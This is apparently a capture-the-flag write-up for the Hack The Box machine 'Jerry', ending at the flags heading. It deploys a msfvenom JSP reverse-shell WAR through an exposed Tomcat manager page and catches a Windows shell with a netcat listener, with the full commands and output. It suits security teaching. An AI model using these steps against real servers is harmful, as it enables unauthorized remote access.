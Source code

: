 ### Find potential attack vector

I searched around for somewhere to upload a payload. 
We can upload WAR files to the server via the /manager/html page.

```shell
http://10.10.10.95:8080/manager/html
```

See the __Deploy__ section. 

### Msfvenom WAR payload

We can generate a payload with `msfvenom`.
To run, we need a Java/JSP payload, in WAR file-format.
Tomcat is java-based, and runs JSP files.

```shell
kali@kali:~/Desktop/repos/ctf/hack-the-box/jerry$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=4443 -f war -o shell.war
Payload size: 1084 bytes
Final size of war file: 1084 bytes
Saved as: shell.war
```

### Upload payload

Now we have a payload, lets upload(deploy) it. You'll notice after you Browse, select your payload, then Deploy. Another record is attached to application list.

The application will take on the name of the WAR file you deployed.

To access and execute the reverse shell, simply browse to the URL. In the above case, we need to browse to `/shell`, as we uploaded `shell.war`.

But, before we execute the shell we need to start a listener for our reverse shell.

### Get shell

We'll use netcat listening on `4443`.
After starting listener, navigate to the exploit path.
This will give use shell

```shell
kali@kali:~/Desktop/repos/ctf/hack-the-box$ nc -lvp 4443
listening on [any] 4443 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.95] 49194
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

## Getting user & root flag
